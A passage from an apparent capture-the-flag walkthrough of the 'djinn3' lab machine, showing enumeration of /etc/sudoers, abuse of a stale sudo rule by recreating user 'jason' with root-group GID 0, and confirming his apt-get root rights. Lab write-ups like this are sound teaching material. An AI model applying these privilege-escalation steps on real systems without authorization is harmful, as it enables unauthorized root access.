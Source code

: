 Besides, further enumerating the target reveals that `jason` can run `apt-get` as root without password, but the user seems not to exist (probably removed by an admin who forgot to remove the line in the `sudoers` file):

~~~
saint@djinn3:~$ cat /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults    env_reset
Defaults    mail_badpass
Defaults    secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:
# If you need a huge list of used numbers please install the nmap package.

saint ALL=(root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin

jason ALL=(root) PASSWD: /usr/bin/apt-get
~~~

Let's recreate the user jason and add him to the root group (GID 0):

~~~
sudo adduser jason --gid 0
~~~

Now, let's switch to `jason`. As expected, we can run `apt-get` as `root`:

~~~
saint@djinn3:~$ su jason
Password: 
jason@djinn3:/home/saint$ sudo -l
[sudo] password for jason: 
Matching Defaults entries for jason on djinn3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on djinn3:
    (root) PASSWD: /usr/bin/apt-get
~~~

